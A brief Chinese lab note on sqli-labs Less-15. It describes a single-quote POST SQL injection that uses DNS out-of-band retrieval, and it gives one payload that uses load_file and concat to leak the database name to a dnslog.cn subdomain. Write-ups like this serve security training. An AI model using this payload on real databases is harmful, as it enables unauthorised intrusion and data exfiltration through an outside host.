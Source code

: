 title: sql-labs 15关

less-15——基于’的POST型注入（利用dns回显）

注入语句：admin' and load_file(concat("\\\\",(database()),".qyfyji.dnslog.cn\\1.txt")) --+
![image-20220330103016171](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330103016171.png)